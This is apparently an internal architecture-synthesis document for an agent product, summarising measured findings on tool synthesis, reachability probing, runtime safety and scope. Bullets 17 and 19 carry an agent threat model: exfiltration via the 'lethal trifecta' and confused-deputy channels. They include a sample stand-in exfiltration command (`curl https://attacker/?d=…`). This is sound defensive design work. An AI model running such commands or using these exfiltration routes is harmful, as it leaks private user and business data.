


# 14 — Architecture Synthesis: What `function2agent` Is, and What to Build First

**Last synthesized: 2026-08-02**

Capstone reconciliation of documents [01](./01-agent-anatomy.md)–[13](./13-claude-managed-agents.md). This is a decision document, not a survey. Where the corpus disagrees, I pick a side and say why.

---

## TL;DR — Key takeaways

> 1. **The moat is not generation — it is *selection and consolidation*.** Endpoint→tool generation is commoditized by at least seven shipping products ([07](./07-product-vision.md) §8), and the author of FastMCP — who wrote roughly 70% of the MCP servers in existence — publicly warns that mechanical 1:1 conversion produces servers that "technically work but fail in practice" ([09](./09-mcp-as-tool-surface.md) §5). The defensible artifact is the decision that 300 endpoints become ~25 outcome-named tools with verified effect labels. Everything else in the pipeline is table stakes. **Superseded as a statement about v1 on 2026-08-02 by `plan.md` OD-09 — see bullet 16.** The 300→~25 decision is still the defensible artifact and it is now a **v2** artifact: selection and consolidation leave v1 with synthesis. What is retained unchanged is the *reason* the sentence gives — mechanical 1:1 conversion is commoditized and known to fail — which is why v2 must not be re-planned as "generate a tool per endpoint" when it arrives. **The clause that is simply wrong for v1 is "with verified effect labels":** there is no synthesized tool to attach a derived label to, and yet Principle IV still binds the tools v1 does emit, which is D-22 rather than a softening of this bullet.
> 2. **The vision is two products, and fusing them assembles the lethal trifecta by construction.** Class A operates *on the codebase*; Class B operates *through the running app* ([07](./07-product-vision.md) §3.4). Private data + untrusted content + egress, with an iframe on top, is not a hard security problem — it is a *designed-in* one. Ship one class in v1. My read of the evidence says Class B, but [11](./11-validation-plan.md) §8 makes that an experiment (Phase 3, A6 vs. A2/A7), not an assertion.
> 3. **Anthropic already shipped the thing you were going to invent.** Claude Code v2.1.154 (2026-05-28) ships dynamic workflows: the model writes a JavaScript orchestration script, a deterministic scheduler runs it, every `agent()` call is journaled, `Date.now()`/`Math.random()` are disabled for sound replay ([10](./10-topology-in-practice.md) §2). This is a *validation* of the represent-always/execute-conditionally instinct and a *warning* that the control-flow layer is not where the value accrues.
> 4. **Decompose by bounded context or not at all.** Layer decomposition (UI/API/data) is almost certainly wrong: every request crosses every layer, so layered agents own no outcome and merely call each other at ~15× the token cost of a chat ([Anthropic](https://www.anthropic.com/engineering/multi-agent-research-system), via [01](./01-agent-anatomy.md) §7 and [07](./07-product-vision.md) §3.1). Bounded contexts are the right axis and are *not reliably recoverable statically* — which is exactly why boundary inference is net-new IP and not a `codegraph` feature ([06](./06-examples-inventory.md) §G1).
> 5. **Loop by default; escalate to deterministic journaled code when the plan is held outside the model.** [10](./10-topology-in-practice.md) supersedes [03](./03-graph-and-loop-architecture.md)/[07](./07-product-vision.md) on the trigger: the question is not "is there a mandatory step" but **who holds the plan** — a measurable property. And "execute" should mean imperative journaled code, not a node/edge graph. Steal ADK's static rejection of unconditional cycles (~10 lines of DFS): it is the one guarantee a graph gives that a loop plus a budget cap cannot, and it is precisely the bug a call-graph-derived generator emits.
> 6. **Two credential planes, physically separate, and no secret in context — ever.** Model-plane leaks money and is reversible; resource-plane leaks the business and often is not ([08](./08-auth-identity-and-secrets.md) §1). Env vars are the wrong default because agents have shell by design. Resource-plane credentials must not be *network-reachable* from an agent shell, or `psql` bypasses every tool-level control you built. **Read with 15 from 2026-08-02: self-hosting discharges our *custody* of the secret and nothing about the agent's *use* of it — and it makes this last sentence harder to honour rather than easier, because co-location becomes the default topology** (D-20, §2.9).
> 7. **MCP is the export adapter and the headline artifact — not the internal calling convention.** Decisive reason beyond the three in [01](./01-agent-anatomy.md) §5.6: **MCP schemas have nowhere to put `read_only`/`egress` effect metadata**, so the compile-time lethal-trifecta check — the actual safety differentiator — would be unrepresentable ([09](./09-mcp-as-tool-surface.md) §3). Four breaking wire revisions in ~20 months, the largest five days ago; generated servers must be dual-era for about a year.
> 8. **For `function2agent`:** the correct next action is not a spec. It is a ~1-engineer-week, sub-$300 ceiling test whose only job is to kill the project cheaply. Start free and offline on `adk-python` (both halves of the loop in one repo; the answer key is the instantiated application's own `app.routes` table, which is stronger than `/openapi.json` because it enumerates every deployment configuration rather than fixing one), then stand up Mealie for A0 / A0b / A8. **If A0b ≈ A8 — a shell, `curl`, and an OpenAPI file matching hand-written ideal tools — the product is a runtime plus a verifier, roughly a tenth the planned size.** That is the single most important number in this program. **It arrived on 2026-08-02 and it came back on the side that shrinks the product — bullet 14 reports the measurement, bullet 16 reports the decision (`plan.md` OD-09). This bullet is retained unchanged because it is the prediction, and the prediction was right.**
> 9. **The analysis layer is measured, and it is a firm *extend* — but the number that should worry us is not the recall number.** Route recall is 0.8961 (69 of 77) at precision 1.0000 inside the application source tree, symbol recall 0.9987, and route-to-handler linkage exact 69/69 ([finding 004](../specs/001-discovery-validation/findings/004-recall-against-authoritative-key.md)). 0.8961 sits in the pre-registered 0.75–0.90 band, so the call is *extend with a named, sized gap-fill* rather than adopt (D-14). The genuinely new problem is **configuration blindness**: scored against a single deployment configuration instead of the union of five, precision falls to **0.3188**, because static analysis recovers what source *declares* and not what a deployment *serves* — here differing by a factor of 2.6 against that configuration's served total, or **3.1** against the recovered set, which is the ratio §2 rule 4 now quotes. Nothing in the corpus addresses it, and as of 2026-08-02 **U-26 is resolved by D-18** — probe the running deployment. Two smaller results are worth carrying: the `docstring` field is populated with *wrong* values rather than left empty, which is a different risk class from a coverage gap (U-27), and finding 001's HTTP-verb filter **did not transfer** to a second language (C-12).
> 10. **The runtime clears its loop-safety gate, but the adopt is now qualified and about three weeks of build work moved onto the critical path.** ADK 2.6.1 was probed against the four primitives this architecture assumes: **two of four missing against a pre-registered threshold of three** ([finding 006](../specs/001-discovery-validation/findings/006-graph-loop-primitives.md), D-05). The verdicts are deliberately not binary. Checkpoint and resume is *present but at-least-once*, behind an `@experimental` flag that defaults to off, with **zero granularity inside a node** — a hosted loop killed during turn four re-executed 4 of 4 completed turns. Named terminal conditions are *absent as a taxonomy*. Deterministic replay is *present sequentially, absent under fan-out* (5 distinct orderings in 8 runs). And the sharpest result, **budget enforcement resets on resume**: a ceiling of 3 permitted 6 cycles across two attempts, because the counter lives on the per-invocation context — so **an agent that crashes and retries has no effective ceiling** (U-30). Two consequences carry beyond the runtime choice. **The owner resolved the resulting judgment call the same day, and took neither of the two candidate readings** (`plan.md` OD-01, closing O-06): rather than counting the primitive and letting the count decide, the seam was redrawn at *execution versus safety* — we live inside ADK's graph execution, lifecycle, serving, and provider abstraction, and rely on **none** of its four loop-safety primitives, on the reasoning that partial safety machinery is more dangerous than absent because it invites reliance. And the largest build item is **not ADK's fault** — LangGraph has identical super-step semantics, so only a durable execution layer avoids it, which turns a deferred question into a priced one (U-31). Total spend for all of this was **$0.0003 against a $5 ceiling**, because twelve of fourteen arms needed no model at all. **Amended 2026-08-03 by `plan.md` OD-15 — the measurements are untouched and their subject is gone.** The clause *"we live inside ADK's graph execution, lifecycle, serving, and provider abstraction"* is superseded: ADK is dropped from v1 entirely, and the loop, the session store and the serving surface are ours. **Read the four primitive verdicts as facts about ADK from here on, not as facts about v1's substrate** — in particular the *present but at-least-once* checkpoint-and-resume was the one primitive measured working, and v1 now has **no measured resume machinery at all**. The 2.5–3.5 weeks was scoped to loop safety with the runtime adopted; it does not cover a runner, a session store or a provider driver, and **no re-derived estimate exists in any committed artifact** (bullet 22, **U-48**). What survives unchanged is the *reasoning*: partial safety machinery is more dangerous than absent, and that argument is what made one surviving limb insufficient.
> 11. **Contract-derived verification is achievable, the gate clears on a thin margin, and the number that matters is none of the three gate numbers.** Contracts were derived statically for all 69 recovered endpoints and scored against the application's own published schema ([finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md), $0.00). **The gate admits two honest readings and they land on opposite sides: literal — the extractor produced parameters and a return type — is 60/69 = 0.8696 and clears the pre-registered ≥ 0.80; validated — it produced both and both agree with the framework's schema — is 53/69 = 0.7681 and misses.** The literal reading was pre-registered, so it clears, and it must never be quoted without the second row. Underneath: **parameters are recovered exactly, 207 derived against 207 expected with zero mismatches**; return types agree 53 times and disagree zero times, with the entire gap being 16 endpoints whose response shape nobody declares — not the source, not the decorator, not the framework; exceptions are the weak component at 53.6% coverage and the only one with no ground truth at all (U-33). **The result that matters is a failure mode, not a rate.** Disabling one derivation rule — following an alias generator declared on a base class three files away — leaves **15 of 69 endpoints (21.7%) with a contract that is fluent, plausible, and wrong about every field name on the wire**, with nothing in the output indicating it. That is the same shape as finding 004's confidently-wrong docstrings by a completely different mechanism, and two instances in two consecutive measurements is enough to make it a standing rule rather than an observation: **a missing field is safe because a consumer can see it is missing; a plausible wrong field is not, because nothing downstream can tell** (D-17). Two scope limits travel with the numbers. This is one framework whose design premise is that the signature *is* the schema, all five derivation rules were written after inspecting its failures, and with them disabled the validated rate is **0.5797** — the honest expectation for an untuned framework (U-32). And the next unit of analysis work is a **type resolver, not a better parser**: signatures parse fine in both languages, but only about one in three route-handler return types resolves to a type the index declares (D-14).
> 12. **Reachability is resolved, the answer requires a running instance, and the numbers to be suspicious of are the ones that look best.** **Where that instance is consulted was settled separately on 2026-08-02 and it is a layering decision rather than a mechanism one — `plan.md` OD-06 puts the probe in a stage *above* the analysis layer rather than a step inside it**: analysis emits a candidate set derived from source and nothing else, and a separate reachability artifact annotates it with what a *named deployment* serves. Two artifacts, two lifecycles, and the constitution's *rebuildable from the codebase alone* constraint therefore survives unamended (§2.1, §2.2, §3.1 D-18). Three candidate resolutions were scored against `adk-python`'s own machine-generated route table under **eight** deployment configurations — seven pre-registered, one post-hoc and labelled so everywhere — at **$0.00 with no model called** ([finding 010](../specs/001-discovery-validation/findings/010-deployment-reachability.md)). **Probing the running instance, one unauthenticated `GET /openapi.json`, is exact: precision 1.0000 and recall 1.0000 on all eight, dropping zero served operations anywhere, with the gap to the tautological in-process route-table read exactly zero** — *scoped 2026-08-02 by E15: exact on deployments that publish a schema, and 0.0000 recall on the three states where they do not; the schema-free probe that covers those is exact at path granularity only, see 13.* It wins; U-26 resolves out of blocking as **D-18**; and the joint question of whether OpenAPI is an *input* rather than only a ground truth is settled in the same pass, for reachability and contracts together, one fetch per configuration. Two caveats travel with it and both were measured rather than assumed. The schema covers only **0.8148–0.9206** of the *full* served surface — WebSockets, static mounts, framework documentation routes, and two real operations registered under a computed prefix — so it is an input **labelled as a subset**, never a catalogue; and the shortfall sits in exactly the region static analysis was never reaching either, which is direct evidence for the concern U-29 records, now observed rather than hypothesised. **The fallback for un-runnable targets is where the instructive results are.** Interprocedural configuration parsing scores 1.0000 precision *and* recall on all seven pre-registered configurations — an unqualified pass, including the two adversarial cases built to catch specific cheats — and it needs **eight** framework-specific mechanisms to do it, **predicts 0.0000 operations with all eight disabled and also with either `M1_class_dispatch` or `M2_kwarg_flow` alone disabled** — *corrected 2026-08-02: this bullet previously named `M1` alone, following finding 010's prose rather than its own committed table, and `off-M2_kwarg_flow` predicts **2 operations of 324 at precision 0.0000**, which is a collapse by the same reading ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md) §2)* — and contained one mechanism that was dead code scoring as load-bearing until it was ablated. Finding 007's equivalent figure was 0.5797, degraded but functional; **0.0000 means the mechanism set is not a refinement layer on a working analysis, it *is* the analysis** (C-12, U-32). Worse, the *naive first pass* at it scored **worse than doing nothing at all eight configurations**, predicting other applications' routes in the same repository as served at a **0.75** false-inclusion rate — so there is no shippable partial version of a mechanism the product needs, and "start basic and improve" is the wrong plan (U-38). **The sharpest single result is a post-hoc configuration whose declared configuration is byte-identical to one that scores 1.0000.** Making `python-multipart` unimportable drops three routes silently and takes the parser to **0.9538** — clearing the 0.95 gate by **less than one operation** — because the fact that decides registration is in the machine's installed package set, not in the source and not in the configuration. That is **environment** blindness, a different class from U-26's, and it has no upper bound (U-35). Two instrumentation defects also landed, both Starlette properties: the framework's own `Allow` header under-reports served methods by **24–28%** with no error and no signal (C-14), and a probe designed specifically *not* to invoke handlers **invoked at least two**, because a parameterised route absorbed probes aimed at its literal siblings — so the precondition's side-effect-freedom is qualified rather than established (U-37). **And the largest hole sits directly under the primary recommendation: no deployment that withholds its schema was measured**, though `openapi_url=None` and auth-gated schemas are ordinary production practice. Scheduled as **E15** at $0 (U-34) — **which has now returned, and it retracts part of this bullet; read 13 before acting on any number above.**
> 13. **The schema turned out not to be the thing that was load-bearing, and the exactness was.** E15 took the schema away four different ways and added two genuinely different routers, at **$0.00 with no model called** ([finding 011](../specs/001-discovery-validation/findings/011-reachability-without-schema.md)). **The narrowing holds and is now measured: schema-free path-level reachability scored precision 1.0000 and recall 1.0000 on `ABSENT`, `FORBIDDEN` and `EMPTY` alike, identical to the schema-present control**, while the schema fetch itself falls to 0.0000 recall on all three — so configuration parsing is the fallback for targets that cannot be **run**, not for targets that cannot be **introspected**, and D-18 part 3's population shrinks accordingly. **What the schema was actually carrying is coverage, not accuracy**: it *enumerates* where a probe only *filters*, and E14 measured 8 of 77 served operations outside the static set, two of them real — no probe recovers those, and without a schema the size of that blindness is unmeasurable. Cost is also **67 requests against 1**, every one a method-mismatch probe in the target's access log. **The retraction is bullet 12's word "exact."** `adk-python` contains no path that serves some HTTP methods and withholds others, so path granularity and operation granularity are the same number there; add one ordinary route that gates `POST` behind a flag and precision falls to **0.8000**. E15's precision gate misses on all three pre-registered arms — 0.8750 for E14's probe design, 0.8000 for the corrected one — **and not because the schema is absent**, since all four FastAPI states scored 1.0000/1.0000. It misses on the three non-FastAPI fixtures, and **every false positive anywhere in the experiment is a method-level error; path-granularity precision is 1.0000 on all seven targets.** So the honest shape of the trade is that **a schema-free mechanism can be accurate, complete, or safe, and you may pick two** (U-39, newly blocking). **Three results beyond the gates are worth carrying.** U-37's feared 404-for-method-mismatch did not appear — Starlette, Flask and Django all answer 405 — but **Django's resolver carries no method information at all**, so an undecorated view *executes* on a fabricated-verb probe and was safe only because static analysis could not recover its methods either and never proposed it (U-40). **The `Allow` header is wrong on three routers in three ways and in opposite directions** — Starlette under-reports and can name a *different route's* methods depending on registration order, Flask over-reports by unioning across matching rules, Django is exact only where the view declares — so a correction learned on one router makes another worse (C-14). And **a provably handler-free probe nearly exists**: a verb no route declares gives **0 handler invocations across all seven targets against 13** for E14's rule, leaving middleware as an irreducible residue, which reduces the Principle IV conflict rather than resolving it. **The subtlest result is methodological and it is the one to remember.** E14's recall shortfall of 0.9655 **disappeared without the defect being fixed**, because a concretised path segment changed from a valid Python identifier to a hyphenated one, flipping an absorbed handler's response from 404 to 400 — same defect, same two handlers invoked, **an accuracy metric that moved to 1.0000 because of a hyphen. A safety defect was masquerading as an accuracy metric**, and it moved on an undeclared harness constant, which is C-05's rule arriving in our own numbers instead of somebody else's benchmark.
> 14. **The ceiling test returned, and it took half the thesis with it: a curated tool surface never won a family on success rate, and it was cheaper in every one.** Three families, 41 tasks, every outcome decided programmatically, **$24.73 across four sessions against $120 authorised for a full battery that will not run** ([finding 012](../specs/001-discovery-validation/findings/012-ceiling-test-per-family.md); `plan.md` OD-07). Lookups — the region the thesis most favoured, and the last one measured — came back **27/27 against the shell baseline's 26/27, which on one attempt each is a tie**; joins tied 9/10 against 10/10; and the per-record family the baseline **wins 4/4 against 2/4**, after the treatment was corrected under OD-05 by adding one aggregation tool under a pre-registered task-blind rule. **The one effect that replicated everywhere is cost: 5.06× cheaper per attempted lookup task (5.25× per solved), ~~2.8×~~ 2.20× per solved join, 9.3× on the two aggregable per-record tasks**, direction never reversing — bullet 8 named "A0b ≈ A8" the single most important number in the program, and this is it arriving, so **P-03 resolves toward the pivot on capability and is held open only by cost.** *Note a discrepancy in the source, and note that its resolution was itself wrong: finding 012's headline said "5× to 9×" while its own table reported 2.8× for joins and its closing section said 3–9×. **Corrected 2026-08-03 — the join figure itself was wrong**, having divided a post-fix cost total by a pre-fix solved count of 8 and 7 while every quoted success count is the post-fix 9 and 10. On the post-fix basis the ratio is $0.1716 against $0.3769, or **2.20×**, so the surviving range is ~~2.2×–9.3×~~ **2.20×–4.366× within session** and the per-family figures above are the ones to use. **Narrowed again 2026-08-03, and flagged for the owner rather than edited quietly — see §3.1's OWNER FLAG and `plan.md` OD-07: the lookup and join ratios turn out to carry no cross-session exposure, while the 9.3× is a cross-run n = 2 pairing and stops being a range endpoint (U-46).** The magnitude is a bound on one budget configuration and not a rate: removing `R4.001` moves the join ratio to 4.20×, and that task consumed 94% of the raised token cap ([finding 009](../specs/001-discovery-validation/findings/009-ceiling-test.md) §Limb 1).* **Two results matter more than the scores.** A liability nobody designed for: **where no tool fits the question the tool arm does not degrade, it burns its entire budget and submits nothing** — three of four per-record failures were exhaustion rather than wrong answers, against a shell arm that exhausted nothing in 31 scored attempts — which is why the emitted stack needs a **general fallback path** and why that requirement collides with restatement 2 (C-15, D-19). And the best argument the product now has is **not the one it was built on**: the baseline's single lookup failure was not a discoverability failure — it found the endpoint, the parameter and the correct identifiers on all 27 tasks — it was **an API that fails open**, returning 60 records where 7 were correct when queried by display name instead of slug, silently. A tool that encodes the identifier discipline cannot fail that way. **That names a mechanism rather than asserting a benefit, and it is n = 1; replication was offered at ~$15 and deliberately declined** (U-41). **So the revised claim is ~~cheaper and safer~~ cheaper *within session* and safer *only for hand-written surfaces*, not more capable** — the capability half is not supported and must not be asserted, and ~~"safer" travels as an assumption to be validated~~ **the "safer" limb is withdrawn as stated and re-scoped 2026-08-03: the immunity traces to a human declining to use the API's own filter, so a *synthesized* tool inherits the defect and "synthesis is safer" may not be asserted at all — the transfer question, not n = 1, is the binding limit** (OD-07, D-19, **C-18**). **This bullet reports the measurement; the scope decision it triggered is bullet 16 (`plan.md` OD-09), and it is larger than "the claim is revised" — it moves synthesis out of v1 altogether.**
> 15. **The deployment model is settled and the binding half is the clause that sounds like a hedge.** `plan.md` OD-08 (D-20, closing O-01): **ship self-hosted, and design so that fully hosted remains reachable later without a rewrite.** The second clause is the one a register can violate silently, because every way of foreclosing hosted is a default someone reaches for when there is exactly one tenant — so four disciplines are enforced from the first commit rather than at a future migration: **never assume co-location** even when everything is on `localhost`; **tenant and deployment identity are first-class from day one**, which makes D-17's fourth requirement do double duty and forbids relaxing it on the grounds that a single-tenant deployment has one of each; **no customer-specific path, hostname, or credential in an emitted artifact**; and **storage and the knowledge layer namespaceable** while exactly one namespace exists. **The decision is commercial and the arguments for it are technical:** reachability is needed *twice* — E14/E15 make a running deployment an input to analysis, and the runtime needs the same reach again at execution time — and OD-07's mandatory general fallback means shell, which is a categorically different risk inside the customer's boundary than inside ours. **The three things O-01 said fall out of it did, in three different directions, and conflating them is the failure mode.** **Multi-tenancy is *deferred*, not absent**: [08](./08-auth-identity-and-secrets.md) §6.2's five isolation requirements stop being runtime obligations and become design constraints, so dropping them is a foreclosure rather than a simplification. **The credential architecture has its custody half discharged by construction and its confused-deputy half untouched** — there is no vault of ours to breach, and every one of §2.9's five non-negotiables still stands, two of them under *more* pressure than before, because co-location is now the default topology rather than a deployment mistake (D-07, §2.9). **The iframe is deferred with the hosted tier**, which is the right way round: an anonymous browser session over an agent holding shell is the trifecta in full (C-15). **Five register entries narrow rather than close — O-02, O-03, O-05, P-10 and U-05, the last leaving the blocking set without being resolved — and one, O-04, gets harder**, because "no telemetry" is an accepted cost and both drift triggers must now fire unattended on the customer's box. *(**Extended 2026-08-03**: U-05's departure from the blocking set was flagged on 2026-08-02 and executed on 2026-08-03 by owner decision, annotated on `plan.md` **OD-08**. It is now marked **hosted-tier-blocking** and stays in §5.1 under the annotate-in-place convention. Nothing was measured; the trust question travels to the tier this decision keeps reachable.)*
> 16. **A pivot criterion pre-registered before any experiment ran has fired, and the product is now roughly a tenth of the size the rest of this document describes.** `plan.md` **OD-09**. [11](./11-validation-plan.md) §7 committed, in advance, that if the shell-plus-spec baseline landed within 5 points of hand-written ideal tools then *"the product is a spec-aware runtime plus a verifier plus drift detection — real, but ~10× smaller than the current plan. Re-scope before proceeding."* **It fired in all three families, and in two the baseline was ahead** — lookups 3.7 points apart, joins the baseline +10, per-record the baseline +50. **So v1 is a spec-aware runtime, a contract-derived verifier, and drift detection. Tool synthesis, promotion selection, effect classification and decomposition-into-agents leave v1**, and synthesis is recorded as a *measured* v2 opportunity carrying both its number — ~~2.8×–9.3×~~ ~~2.2×–9.3×~~ **2.20×–4.366× within session** cheaper wherever it succeeds *(narrowed 2026-08-03; §3.1 OWNER FLAG)* — and **its two liabilities**: outside its surface the tool arm burns its entire budget and returns nothing, and **the fail-open immunity that made a curated surface look safer does not transfer to a synthesized one** (OD-07, C-15, C-18, D-21). **Read this as a re-scope rather than a retirement, and read the distinction between three fates carefully, because collapsing them is the recurring failure mode in this corpus.** *Wrong*: the §1.2 differentiator table, which ranks four differentiators of which two are no longer v1; D-06's decisive reason for keeping MCP external, which was a property of a synthesized catalogue; and D-16's gate, which conditions v1 writes on a number nobody can now measure. *Narrowed*: the analysis layer, which **shrinks rather than disappearing** — from *decompose into agents and synthesize tools* to *derive contracts where no schema is published, and detect source drift*. *Deferred*: promotion selection, the MCP export adapter, boundary inference, and the multi-agent arms — all still correct about v2 and all off the v1 roadmap. **Two things do not move, and one of them is the largest item on the critical path.** OD-01's 2.5–3.5 weeks of loop-safety build is **unchanged**, because a runtime needs those primitives more than a generator does; and OD-07's general-fallback requirement is now the *whole* tool story rather than a supplement to one, which makes C-15 sharper rather than moot. **The honesty condition travels with it and is not optional:** the mis-calibration rule fired too, so the two tied families support no conclusion in either direction, and **the re-scope rests on one properly calibrated family at n = 4** (U-42). **And one clause of OD-09 is propagated with a flagged narrowing rather than as written** — *effect classification defers with synthesis* is right about the differentiator and wrong about the obligation, because constitution Principle IV binds every emitted tool and v1 still emits a shell and an HTTP client that can issue `DELETE`. See **D-22** and **C-16**; the differentiator defers, the classification does not.
> 17. **v1 is read-only, and the interception point is what enforces it rather than something read-only makes redundant.** `plan.md` **OD-10**, 2026-08-03. D-22 established that v1 must resolve a tier for every call; this settles what the gate may pass. **Resolved read-only → allow; reversible-write, irreversible and `UNKNOWN` → denied outright.** Two dispositions, not four, and **nothing escalates to a human at runtime.** The reason is that the verb→tier proxy is crude by inspection, its precision has never been measured (U-43), D-16's ≥ 0.98 gate was written for a static label produced by a synthesizer that no longer exists, and the compile-time `no_trifecta` invariant is gone rather than deferred (C-16) — so shipping writes would gate destructive operations on an unvalidated classifier, which constitution v1.1.0 Principle I exists to forbid. **This takes the first branch of a rule pre-registered before any experiment ran** ([11](./11-validation-plan.md) §7 Phase 5, §8): *precision < 0.98 → read-only v1, enforced structurally at the network layer rather than by classification*, and an unmeasured precision is not ≥ 0.98. **Read the safety consequence precisely, because the intuitive version of it is wrong.** Read-only retires the destructive-action limb of C-16 and **does not touch the exfiltration limb**: the trifecta is private data + untrusted content + egress, and a v1 agent still holds a live credential, still ingests stored rows, and still holds a shell and a general HTTP client, so `curl https://attacker/?d=…` is a read against the target and a complete exfiltration of the data. The lost `no_trifecta` invariant was an *exfiltration* check, so **C-16 is narrowed and stays open.** What genuinely improves is the gate's exposure: with default-deny, a false *write* label costs availability and only a false *read-only* label costs integrity, so **U-43 shrinks to one measurable error shape — a side-effecting endpoint reached by a safe method.** One word is defined rather than assumed: *provably read-only* is unavailable, and v1's operative standard is a **stated, unvalidated rule set** — a safe method in the served-operation spec, minus a deny list of known side-effecting reads.
> 18. ~~**The verifier-versus-judge experiment is a gate on the production spec, not an input to it — and the spec is blocked until it returns.**~~ **SUPERSEDED the same day by `plan.md` OD-14 — read bullet 21 first, then this one as the record of why the gate was set.** `plan.md` **OD-11**, 2026-08-03. All three surviving v1 capabilities are unmeasured: drift detection was scheduled for a Phase 5 that never ran, the effect gate's precision is U-43, and **the verifier's marginal detection over an LLM judge was scheduled for a Phase 2 that never ran** — so the verifier holds headline status on [finding 007](../specs/001-discovery-validation/findings/007-contract-extraction.md)'s *extraction accuracy* rather than on the *marginal detection* number that was supposed to earn it (P-07, P-09; [11](./11-validation-plan.md) §8 calls it "the most consequential gap in the table"). **If a general-purpose judge catches everything a contract-derived verifier catches, the verifier is not a differentiator and — with promotion selection and effect classification already in v2 — there is no v1 product to specify.** The pre-registered gate is quoted rather than re-derived: *verifier adds ≥ 10 pp → headline feature; < 10 pp → CI detail; judge AUROC < 0.5 → constitutional ban on LLM judges in the success path*, and that third branch fires on the judge's own number regardless of what the verifier does. This re-orders §6 below: **the next artifact is an experiment, not a specification.** It does not re-open feature 001, and it does not block the loop-safety build, which is independent. *(That last re-ordering is undone by bullet 21; everything else in this bullet stands as a statement of the gap.)*
> 19. **Principle IV has six bullets and the whole argument has been about one of them. The first bullet — *network allowlisted to named hosts* — is unmet by v1's emitted stack, and nobody recorded it.** 2026-08-03, second pass. C-16, D-22 and OD-10 all reason from Principle IV's **permission-tier** bullet; the **sandboxing** bullet immediately above it requires a network allowlist as architecture, `research/08-auth-identity-and-secrets.md` §8.1 item 4 lists default-deny egress at the host among the *hard requirements — do not ship without these*, and [07](./07-product-vision.md) §3.2.5 item 5 says egress control is a runtime requirement rather than a deployment detail. **v1 emits a shell and a general HTTP client with unrestricted outbound network, so all three are unsatisfied**, and §7.6 files the fix as "the cheapest remaining option … left to the production specification" — an option, when it is an obligation already on the books (**C-17**). **The mechanism does real work and it does not close the limb.** Default-deny egress pinned to the target's API host **and port** discharges §2.9's non-negotiable 4 outright, which is the one OD-08 actively degraded, and it cuts the direct exfiltration channel. It does **not** cut three others: the target application as a **confused deputy** for outbound requests (**U-44**), the response channel back to the operator's own client, and delayed egress through artifacts the agent writes into shared storage. **On the measured target the deputy channel is closed by OD-10 rather than by the allowlist** — all five of Mealie's URL-fetching operations and every webhook/notification test endpoint are `POST`, so default-deny denies them — and **that is a contingent property of one target, not a guarantee**: a link-preview or image-proxy endpoint shaped as a `GET` re-opens it in full. **The reading is `provisional`** — taken from the published operation table, not from the handlers (C-14), so it narrows the search rather than closing it. So the honest posture is *blast-radius limitation plus detection*, not prevention, and it is **target-dependent and must be checked per deployment**. ~~A v1 requirement is drafted at `plan.md` **OD-12 (proposed, not decided)**.~~ **Ratified 2026-08-03 as `plan.md` OD-12, with the enforcement point made singular; the constitution bullet this row is about is amended the same day as OD-13, taking the document to v1.2.0. Read bullet 20 for what changed, because the mechanism moved.**
